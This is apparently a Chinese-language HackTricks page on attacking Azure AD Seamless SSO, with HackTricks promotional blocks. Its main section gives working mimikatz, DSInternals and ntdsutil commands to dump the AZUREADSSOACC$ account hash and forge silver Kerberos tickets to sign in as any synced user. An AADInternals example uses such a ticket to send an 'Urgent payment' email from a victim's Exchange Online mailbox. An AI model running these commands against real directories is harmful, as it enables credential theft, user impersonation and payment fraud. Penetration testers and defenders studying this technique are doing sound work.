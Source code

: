 # Az - 无缝 SSO

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

Azure Active Directory 无缝单点登录（Azure AD 无缝 SSO）会在用户使用公司设备并连接到公司网络时自动**登录用户**。启用后，**用户无需输入密码即可登录到Azure AD**，通常甚至无需输入用户名。此功能为用户提供了轻松访问基于云的应用程序的方法，无需任何额外的本地组件。

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

基本上 Azure AD 无缝 SSO 会在用户**在本地域加入的PC上**时**登录用户**。

它由 [**PHS (密码哈希同步)**](phs-password-hash-sync.md) 和 [**PTA (透传认证)**](pta-pass-through-authentication.md) 支持。

桌面 SSO 使用 **Kerberos** 进行认证。配置时，Azure AD Connect 会在本地 AD 中创建一个名为 **AZUREADSSOACC`$`** 的计算机帐户。`AZUREADSSOACC$` 帐户的密码在配置期间以**明文发送到Azure AD**。

**Kerberos票据**使用密码的 **NTHash (MD4)** **加密**，Azure AD 使用发送的密码来解密票据。

**Azure AD** 暴露了一个**端点** (https://autologon.microsoftazuread-sso.com) 用于接受 Kerberos **票据**。域加入的机器的浏览器将票据转发到此端点以进行 SSO。

### 本地 -> 云

用户 **`AZUREADSSOACC$` 的密码**永远不会改变。因此，域管理员可以破解该帐户的**哈希值**，然后使用它来**创建银票据**，以**任何同步的本地用户**的身份连接到Azure：
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
使用该哈希，您现在可以**生成银票**：
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
使用银票：

1. 启动 _Mozilla Firefox_。
2. 转到 **`about:config`** 并设置 [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) 首选项为 [value](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
3. 导航到任何与我们AAD域集成的网络应用程序。我们将使用 [Office 365](https://portal.office.com/)，这是最常用的一个。
4. 在登录屏幕上，填写用户名，密码字段留空。然后按TAB或ENTER。

<figure><img src="../../../../.gitbook/assets/image (3) (3) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
如果启用了MFA，这不会绕过MFA
{% endhint %}

#### ~~为云端唯一用户创建Kerberos票据~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

如果Active Directory管理员可以访问Azure AD Connect，他们可以**为任何云用户设置SID**。这样也可以为**云端唯一用户创建**Kerberos **票据**。唯一的要求是SID是一个正确的 [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))。

{% hint style="danger" %}
现在**微软已阻止**更改云端唯一管理员用户的SID。\
有关信息请查看 [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### 本地 -> 云端通过基于资源的受限委派 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

任何可以管理计算机账户（`AZUREADSSOACC$`）的人，如果这个账户在容器或OU中，他们可以**配置基于资源的受限委派来访问这个账户**。

<figure><img src="../../../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

## 参考资料

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>从零开始学习AWS黑客攻击直到成为专家，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs**](https://opensea.io/collection/the-peass-family)系列
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
